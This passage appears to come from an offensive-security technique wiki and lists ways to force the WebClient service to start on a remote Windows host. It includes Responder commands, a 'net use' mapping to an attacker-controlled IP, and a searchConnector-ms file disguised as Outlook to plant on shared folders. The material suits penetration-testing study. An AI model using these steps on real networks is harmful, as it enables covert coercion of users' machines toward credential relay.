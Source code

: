 
### Start the WebClient service

On a side note, making a remote system start the WebClient service can be done in many ways

::: tabs

=== Map a WebDAV server

By mapping a remote WebDAV server. This can be done by having Responder's server up and by running the `net use` cmdlet.

```shell
# starting responder (in analyze mode to prevent poisoning)
responder --interface "eth0" --analyze
responder -I "eth0" -A

# map the drive from the target WebClient needs to be started on
net use x: http://$RESPONDER_IP/
```


=== searchConnector-ms

With a [searchConnector-ms](https://docs.microsoft.com/en-us/windows/win32/search/search-sconn-desc-schema-entry) file uploaded to widely used share within the organisation. Each time a user browses the folder, the WebClient service will start transparently.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>https://whatever/</url>
    </simpleLocation>
</searchConnectorDescription>
```


=== Explorer

By opening an interactive session with the target (e.g. RDP), opening the Explorer, and type something in the address bar.

=== Service trigger

According to [tiraniddo's research](https://www.tiraniddo.dev/2015/03/starting-webclient-service.html), the webclient service is registered with a service trigger, meaning it can be started automatically in response to a specific system event.
A simple way to start the service in an unprivileged session is by compiling and executing the following [C# PoC](https://gist.github.com/klezVirus/af004842a73779e1d03d47e041115797) created by [klezVirus](https://gist.github.com/klezVirus).
